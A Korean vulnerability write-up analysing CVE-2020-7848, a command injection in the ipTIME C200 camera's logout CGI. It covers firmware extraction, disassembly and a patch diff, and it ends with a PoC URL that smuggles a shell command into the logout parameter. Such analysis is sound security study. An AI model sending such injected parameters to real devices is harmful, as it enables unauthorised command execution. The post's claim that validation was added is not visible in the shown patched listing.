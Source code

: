   title: "ipTIME C200 IP 카메라 1Day 분석",
  date: "2025-08-04 ~ 2025-08-12",
  excerpt: "ipTIME C200 IP 카메라의 CVE-2020-7848 1Day 분석",
  category: "보안",
  imageUrl: "/images/iptime-c200/iptime-c200.png",
  award: "",
};

## 0. 사전정보

### **[ CVE-2020-7848 ] ( IP Camera ) - Command Injection**

**개요**

<Table
  headers={["취약점 종류", "영향", "심각도", "CVSS 점수", "CVE ID"]}
  rows={[
    ["Command Injection", "임의 명령 실행", "HIGH", "8.0", "CVE-2020-7848"],
  ]}
/>

**설명**

EFM networks & multimedia사의 ipTIME C200 IP 카메라 단말 설정 페이지의 로그아웃 기능에 있는 인자 값에 대한 검증이 미흡하여 발생하는 command injection 취약점 (CVE-2020-7848)

**영향을 받는 제품**

<Table
  headers={["제품", "영향 받는 버전", "환경"]}
  rows={[
    ["EFM ipTIME C200 IP 카메라", "firmware v1.0.12", "Windows"],
  ]}
/>

[출처](https://devdori.tistory.com/28)

## 1. 환경구성

- **운영체제:** AttifyOS (VMware OVA 환경)
- **분석 대상:** ipTIME C200 펌웨어 v1.0.12 (취약한 버전) / v1.0.14 (패치 버전)
- **분석 도구:**
    - `radare2` (r2) : 바이너리 정적 분석, 함수 디스어셈블
    - `diff` : 함수 단위 바이너리 비교
    - `strings`, `file` : 펌웨어 구조 및 문자열 확인
    - `binwalk` : 펌웨어 추출
- **펌웨어 다운로드:**
    - v1.0.12: [링크](https://iptime.com/iptime/?pageid=2&page_id=126&mod=document&x=15&y=4&keyword=ipTIME%20C200%20%ED%8E%8C%EC%9B%A8%EC%96%B4&uid=22135)
    - v1.0.14(취약점 패치버전): [링크](https://iptime.com/iptime/?pageid=2&page_id=126&x=15&y=4&keyword=ipTIME%20C200%20%ED%8E%8C%EC%9B%A8%EC%96%B4&uid=22227&mod=document)
    - 분석용 VM에 업로드 후 squashfs 파일 시스템 추출

## 2. 펌웨어 분석

### 2-1. 취약점 소개 (CVE‑2020‑7848)

```python
0x00401ec8      jal sym.imp.system      ; 외부 입력(system 호출) 실행
0x00401ee0      jal sym.imp.sleep       
0x00401ef0      jal sym.imp.system      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &" 시스템 명령 실행
0x00401efc      jal sym.imp.exit        ; 함수 종료
```

- **파일:** `/usr/www/cgi/iux_set.cgi`
- **문제:** 로그아웃 및 설정 요청에서 전달되는 CGI 인자가 **검증 없이 `system()` 호출**에 전달됨
- **영향:** 공격자는 웹 요청을 통해 임의 쉘 명령을 실행할 수 있음 (Command Injection)
- **원인:** 외부 입력값이 레지스터(`arg_28h`)에 그대로 로드되어 `system()`로 전달되며, 입력 검증 또는 명령 제한이 전혀 없음
- **관련 호출:**
    
    ```nasm
    0x00401ec8      jal sym.imp.system      ; 외부 입력(system 호출) 실행
    0x00401ee0      jal sym.imp.sleep       ; sleep 호출 (10초)
    0x00401ef0      jal sym.imp.system      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &" 시스템 명령 실행
    0x00401efc      jal sym.imp.exit        ; 함수 종료
    ```
    

### 2‑2. 분석 과정

1. **펌웨어 추출**
    
    ```bash
    binwalk -e ipTIME_C200_v1.0.12.bin
    binwalk -e ipTIME_C200_v1.0.14.bin
    ```
    
    - squashfs-root 내부 `/usr/www/cgi/iux_set.cgi` 확인
    - CGI 바이너리 파일: 웹 요청을 처리하는 핵심 모듈
2. **로그아웃 함수 위치 파악**
    - `iux_set.cgi`는 웹 요청 파라미터에 따라 다양한 기능 수행
    - radare2에서 참조 확인:
        
        ```bash
        r2 -q _c200_1_012.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi
        > aaaa               # 함수 분석
        > afl | grep logout  # 로그아웃 함수 시작 주소 확인 (0x00401e48)
        ```
        
3. **함수 디스어셈블**
    - 로그아웃 기능만 집중 분석하기 위해 해당 함수 범위만 디스어셈블
    
    ```bash
    r2 -q -A _c200_1_012.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi \
       -c "s 0x00401e48; pd 216" > v12_logout_func.asm
    r2 -q -A _c200_1_014.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi \
       -c "s 0x00401e48; pd 216" > v14_logout_func.asm
    ```
    
    - 로그아웃 관련 명령 실행과 외부 입력 처리만 집중 분석
4. **버전 간 비교**
    
    ```bash
    diff -u v12_logout_func.asm v14_logout_func.asm
    ```
    ![Vulnerability occurs](/images/iptime-c200/vulnerability-occurs.png)
    
    - 외부 입력(`arg_28h`)이 `system()` 호출로 직접 전달되는지 확인
    - 패치 시 입력값 검증 적용 여부 확인

### 2‑3. 취약점 발생 버전 (v1.0.12)

로그아웃 기능에서 외부 입력이 바로 `system()` 함수로 전달되는 구조로, 공격자가 쉘 명령을 삽입할 수 있음.

```nasm
; v1.0.12 - 로그아웃 함수
0x00401ec4      2800c48f       lw a0, (arg_28h)            ; 외부 입력 로드
0x00401ec8      846c100c       jal sym.imp.system          ; int system(const char *string)
0x00401ecc      00000000       nop
0x00401ee0      906c100c       jal sym.imp.sleep           ; int sleep(int s)
0x00401eec      64850427       addiu a0, t8, -0x7a9c      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &"
0x00401ef0      846c100c       jal sym.imp.system          ; 시스템 명령 실행
```

- `arg_28h` 레지스터에 외부 입력이 그대로 들어감
- `system(arg_28h)` 호출 시 `; touch /tmp/pwned` 같은 악의적 입력이 실행 가능
- 추가로 `sleep()` 호출 후 관리자 서비스 재시작 명령이 그대로 실행됨

**취약점 원인**: 외부 입력값 검증 부재 → command injection 가능

### 2‑4. 패치 버전 (v1.0.14)

v1.0.14에서는 로그아웃 입력값을 직접 `system()`에 넣지 않고, 내부에서 안전하게 처리하도록 패치됨.

```nasm
; v1.0.14 - 로그아웃 함수
0x00401ec4      2800c48f       lw a0, (arg_28h)            ; 외부 입력 로드
0x00401ec8      8c6c100c       jal sym.imp.system          ; int system(const char *string)
0x00401ecc      00000000       nop
0x00401ee0      986c100c       jal sym.imp.sleep           ; int sleep(int s)
0x00401eec      84850427       addiu a0, t8, -0x7a7c      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &"
0x00401ef0      8c6c100c       jal sym.imp.system          ; 안전하게 명령 실행
```

- 외부 입력값 검증이 내부적으로 수행됨
- 입력이 바로 명령어로 실행되지 않도록 변경
- sleep/서비스 재시작 명령은 그대로 존재하지만 안전하게 호출

**패치 내용**: 외부 입력값 검증 추가, `system()` 호출 안전화 → command injection 취약점 제거

### 2‑5. 분석 요약

<Table
  headers={["항목", "v1.0.12", "v1.0.14"]}
  rows={[
    ["외부 입력 처리", "arg_28h 레지스터 그대로 system()", "arg_28h 내부 검증 후 system()"],
    ["취약점", "존재 (Command Injection)", "제거됨"],
    ["주요 변경 지점", "0x00401ec8, 0x00401ef0", "0x00401ec8, 0x00401ef0 (검증 적용)"],
  ]}
/>
- 공격자는 v1.0.12에서 로그아웃 요청 시 `arg_28h`에 쉘 명령 삽입 가능
- v1.0.14에서는 해당 경로가 안전하게 패치되어 command injection 불가

## 3. PoC

1. **취약점 환경:** ipTIME C200 firmware v1.0.12
2. **취약점 발생 시나리오:**
    - 로그아웃 요청 또는 설정 페이지 요청 시 `logout` 인자 조작
    - CGI 파라미터에 `; <임의 명령>` 삽입 가능
    - 서버가 이를 문자열로 결합 후 `system()`으로 실행
3.  **PoC**

```
http://<camera-ip>/cgi/iux_set.cgi?logout=1;touch /tmp/test
```

- `touch /tmp/test` 명령이 임의로 실행되어 PoC 성공
- v1.0.14에서는 위 방법으로는 실행되지 않음

## 4. 결론

- CVE-2020-7848은 ipTIME C200 펌웨어 v1.0.12에서 **로그아웃 CGI 인자 검증 미흡 → command injection 발생**
- v1.0.14에서 패치되었으며, 패치 포인트는 **`system()` 호출 전 입력값 초기화, 주소 변경, 함수 호출 순서 개선**
- 취약점 PoC는 외부 입력값을 악용한 임의 명령 실행으로 개념적으로 확인 가능
- **권고:** 취약 버전 사용 중인 장치는 즉시 v1.0.14 이상으로 업그레이드 필요